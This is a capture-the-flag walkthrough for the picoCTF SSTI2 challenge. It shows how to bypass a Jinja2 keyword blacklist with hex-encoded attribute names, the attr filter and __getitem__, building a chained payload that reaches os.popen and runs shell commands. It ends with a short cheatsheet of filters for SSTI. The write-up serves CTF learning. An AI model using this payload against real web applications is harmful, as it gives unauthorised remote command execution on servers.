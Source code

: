 ## 📝 SSTI2 Challenge Walkthrough

In this challenge, we’re dealing with a **Server-Side Template Injection (SSTI)** vulnerability—but with heavy input filtering.

---

### ✅ Step 1: Confirm SSTI

We start by testing whether SSTI is possible:

```jinja2
{{ 7*7 }}
```

It returns 49, so SSTI is enabled.

---

### ❌ Step 2: Bypassing Keyword Blacklisting

Trying a textbook payload:

```jinja2
{{ "".__class__.__base__.__subclasses__() }}
```

...results in an error: “stop trying to break me”.

This means keywords like `class`, `base`, `subclasses`, and even `""` (an empty string) are blacklisted.

I tried using a custom string like `"idk"` instead of `""`:

```jinja2
{{ idk.__class__ }}
```

...but even that failed due to the sanitization.

Attempts like:
- Unicode/hex encoding `__class__`
- URL-encoding newline characters
- POSTing a newline

...all failed due to filters and sandbox constraints.

---

### 🧪 Step 3: Exploring Filters & `attr`

I noticed that:

```jinja2
{{ idk | }}
```

...does not trigger an error, meaning filters are allowed.

So what are filters in Flask Jinja2?

Filters are built-in functions in Jinja2 that let you modify or format data before it's rendered in the template. They're used inside double curly braces like this:

```jinja2
{{ variable | filter_name }}
```

You can even pass arguments to them:

```jinja2
{{ variable | filter_name(arg1, arg2) }}
```

They’re super helpful for cleaning up, transforming, or accessing data without writing any Python code in your backend. For example:
- `{{ "HELLO" | lower }}` becomes `"hello"`
- `{{ mylist | length }}` gives the number of items
- `{{ user | default("Guest") }}` shows `"Guest"` if `user` is undefined

In this challenge, filters aren’t just for formatting — they’re a way to sneak around input filters. That’s where `attr()` came in clutch: it let us access blocked attributes like `__class__` using their string names (which we hex-encoded to avoid detection).

So I dug into filter functions and found the holy grail: `attr`.

> `attr` allows you to dynamically access an attribute of an object using a string.

But directly accessing blacklisted attributes like `__class__` still failed:

```jinja2
{{ idk | attr("__class__") }}
```

So I hex-encoded it:

```jinja2
{{ idk | attr('\x5f\x5f\x63\x6c\x61\x73\x73\x5f\x5f') }}
```

Success! We got the class.

I continued by hex-encoding the rest of the chain:

```jinja2
{{ idk
  | attr('\x5f\x5f\x63\x6c\x61\x73\x73\x5f\x5f') # __class__ hex encoded
  | attr('\x5f\x5f\x62\x61\x73\x65\x5f\x5f') # __base__ hex encoded
  | attr('\x5f\x5f\x73\x75\x62\x63\x6c\x61\x73\x73\x65\x73\x5f\x5f')() # _subclasses__ hex encoded
}}
```

---

### 🔍 Step 4: Finding the `warnings.catch_warnings` Class

In the output of `__subclasses__()`, I looked for `warnings.catch_warnings` (a known trick, since its `__init__` uses `sys.modules`).

It existed! At index 221.

But this didn't work:

```jinja2
(...subclasses__())[221]
```

Why? Because:
- `[]` is blacklisted
- Calling functions (`()`) often triggers errors in sandboxed environments

---

### 💡 Step 5: Bypassing with `__getitem__`

Instead of using `[]`, I used:

```jinja2
| attr('__getitem__')(221)
```

That works because:
> `__getitem__` lets us simulate `obj[221]` without using square brackets.

Here’s the full, chained payload:

```jinja2
{{ idk
  | attr('\x5f\x5f\x63\x6c\x61\x73\x73\x5f\x5f') # __class__ hex encoded
  | attr('\x5f\x5f\x62\x61\x73\x65\x5f\x5f') # __base__ hex encoded
  | attr('\x5f\x5f\x73\x75\x62\x63\x6c\x61\x73\x73\x65\x73\x5f\x5f')() # _subclasses__ hex encoded, we can't index/call the warnings subclass so we use getitem
  | attr('\x5f\x5f\x67\x65\x74\x69\x74\x65\x6d\x5f\x5f')(221) # __getitem__ hex encoded and we get the 221th item which is the warning subclass
  | attr('\x5f\x5f\x69\x6e\x69\x74\x5f\x5f') # __init__ hex encoded to call the init method
  | attr('\x5f\x5f\x67\x6c\x6f\x62\x61\x6c\x73\x5f\x5f') # __globals__ to access the global variable, we can't access the sys variable directly here so we use getitem again
  | attr('\x5f\x5f\x67\x65\x74\x69\x74\x65\x6d\x5f\x5f')('sys') #  __getitem__ hex encoded and we get the sys variable
  | attr('modules') # we access its modules (which contains os), we can't access the os module directly because we're calling a function and calling a function triggers an error
  | attr('\x5f\x5f\x67\x65\x74\x69\x74\x65\x6d\x5f\x5f')('os') # so we use getitem again!, __getitem__ hex encoded
  | attr('popen')('cat flag') # accessing the popen function to opne a shell and execute "cat flag" (i executed ls first and then when i saw the flag.txt i cat'ed it)
  | attr('read')() # and here so we can see the output of the popen
}}
```

---

### 🏁 Step 6: Get the Flag

Paste the full payload into the form input, and...

BOOM — you get the flag:

```bash
picoCTF{... redacted ...}
```

---

## 🧰 Useful Jinja2 Filters for SSTI & Exploitation

Here’s a mini cheatsheet of filters that are particularly useful in SSTI/CTF contexts:

| Filter         | Purpose                                         |
|----------------|-------------------------------------------------|
| `attr()`       | Dynamically access attributes like `__class__`  |
| `e` / `escape` | Escape HTML (sometimes bypasses filters)        |
| `safe`         | Mark string as safe (no escaping)               |
| `default()`    | Provide fallback values to avoid breaking logic |
| `length`       | Get length of iterable (can test logic flow)    |
| `join`         | Concatenate strings from a list (may help with payload shaping) |
| `replace`      | Modify strings mid-template (bypass filters)    |

---

> Just look at that payload... it’s a beautiful monstrosity. 😤🔥  
> If you’ve reached this point and understood the entire chain — you’re a beast. 🐍💻


